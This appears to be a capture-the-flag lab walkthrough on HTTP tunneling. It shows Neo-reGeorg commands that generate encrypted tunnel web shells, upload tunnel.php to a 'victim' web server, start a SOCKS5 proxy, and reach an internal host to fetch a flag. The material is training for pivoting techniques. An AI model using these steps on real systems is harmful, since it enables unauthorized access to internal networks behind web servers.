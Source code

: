 # HTTP tunneling

| ![HTTP tunnel](../../_static/images/http-tunnel.png) |
|:--:|
| With tunneling over the HTTP protocol technique other protocols are encapsulated and <br>data can be sent back and forth via the HTTP protocol. |

Use the [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to create a communication channel to access the 
internal network devices:

```text
root@kali:# cd /opt
root@kali:# ls
firmware-mod-kit  kerbrute   Neo-reGeorg-master.zip  Teeth
impacket          microsoft  nessus                  xplico

root@kali:# unzip Neo-reGeorg-master.zip 
Archive:  Neo-reGeorg-master.zip
a9495cabdd59dc1df645742c99c2c7a02702dbf8
   creating: Neo-reGeorg-master/
  inflating: Neo-reGeorg-master/.gitignore  
  inflating: Neo-reGeorg-master/CHANGELOG-en.md  
  inflating: Neo-reGeorg-master/CHANGELOG.md  
  inflating: Neo-reGeorg-master/LICENSE  
  inflating: Neo-reGeorg-master/README-en.md  
  inflating: Neo-reGeorg-master/README.md  
  inflating: Neo-reGeorg-master/neoreg.py  
   creating: Neo-reGeorg-master/templates/
  inflating: Neo-reGeorg-master/templates/NeoreGeorg.java  
  inflating: Neo-reGeorg-master/templates/tunnel.ashx  
  inflating: Neo-reGeorg-master/templates/tunnel.aspx  
  inflating: Neo-reGeorg-master/templates/tunnel.jsp  
  inflating: Neo-reGeorg-master/templates/tunnel.jspx  
  inflating: Neo-reGeorg-master/templates/tunnel.php  

root@kali:# cd Neo-reGeorg-master 
                                                                                
root@kali:# ls
CHANGELOG-en.md  LICENSE    README-en.md  templates
CHANGELOG.md     neoreg.py  README.md
```

Generate an encrypted client file to upload to the victim web server:

    root@kali:# python3 neoreg.py generate -k thm

          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx

The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many 
extensions, including for PHP, ASPX, JSP, etc. 

To access the uploader machine, visit `https://LAB_WEB_URL.p.thmlabs.com/uploader`:

| ![upload](../../_static/images/upload-exfiltr.png) |
|:--:|
| Upload the `tunnel.php` file via the uploader machine. <br>Use `admin` as the key to allow upload into `uploader.thm.com` |

Use `neoreg.py` to connect to the client, provide the key to decrypt the tunneling client, and the URL to the 
`tunnel.php` just uploaded on the uploader machine.

    root@kali:# python3 neoreg.py -k thm -u http://10.10.177.27/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    +------------------------------------------------------------------------+
      Log Level set to [ERROR]
      Starting SOCKS5 server [127.0.0.1:1080]
      Tunnel at:
        http://10.10.177.27/uploader/files/tunnel.php
    +------------------------------------------------------------------------+

Ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080:
 
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80
    <p><a href="/flag">Get Your Flag!</a></p>
                                                                                
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag

Done.
